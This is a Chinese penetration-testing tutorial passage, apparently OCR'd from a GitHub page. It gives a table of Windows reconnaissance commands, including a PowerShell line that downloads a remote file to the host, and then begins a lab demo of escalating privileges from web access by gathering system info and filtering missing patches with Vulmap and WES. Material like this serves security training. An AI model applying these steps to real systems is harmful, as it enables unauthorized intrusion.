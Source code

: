 | net localgroup                                               | 列出所有组                                            |
| net localgroup GROUP                                         | 关于指定组的信息                                      |
| net view\127.0.0.1                                           | 会话打开到当前计算机                                  |
| net session                                                  | 开放给其他机器                                        |
| netsh firewall show config                                   | 显示防火墙配置                                        |
| DRIVERQUERY                                                  | 列出安装的驱动                                        |
| Tasklist /svc                                                | 列出服务任务                                          |
| net start                                                    | 列出启动的服务                                        |
| dir/s foo                                                    | 在目录中搜索指定字符的项                              |
| dir/s too==bar                                               | 同上                                                  |
| sc query                                                     | 列出所有服务                                          |
| sc qc ServiceName                                            | 找到指定服务的路径                                    |
| shutdown/r/t 0                                               | 立即重启                                              |
| type file.txt                                                | 打印出内容                                            |
| Icacls “C\Example”                                           | 列出权限                                              |
| wmic qfe getCaption, Description,HotFixID,InstalledOn        | 列出已安装的补丁                                      |
| (NewObject System.Net.WebClient).DownloadFile(“https://host/file"/"C:\LocalPath") | 利用ps远程下载文件到本地                              |
| accesschk. exe-qwsu"Group"                                   | 修改对象(尝试Everyone，Authenticated Users和/或users) |

# 演示案例：

## 基于 WEB 环境下的权限提升-阿里云靶机

#### 前提

- Windows2012、已获得web权限 

#### 信息收集

运行cmd，可以收集系统的基础信息，但权限不够不能做添加修改

使用“whoami”获得当前用户名，使用“whoami /priv”了解当前账户权限，通过“systeminfo”可以知道系统打过多少补丁，还有“ipconfig”等，可以在命令后加“> x.txt”输出命令

#### 补丁筛选

使用“Vulmap”进行补丁筛选：下载，直接运行其中“.ps1”后缀的PowerShell脚本（打开PowerShell将脚本拖进去）

使用“Wes”进行补丁筛选：下载，在cmd执行命令“python.exe wes.py systeminfo.txt -o vuln.csv”，即对比“systeminfo”文件并将结果输出，其中“-o”是输出，可以将结果输出为“csv”“txt”等格式，输出的结果是可能存在的漏洞等，第一次使用会要求下载两个文件（漏洞数据库）
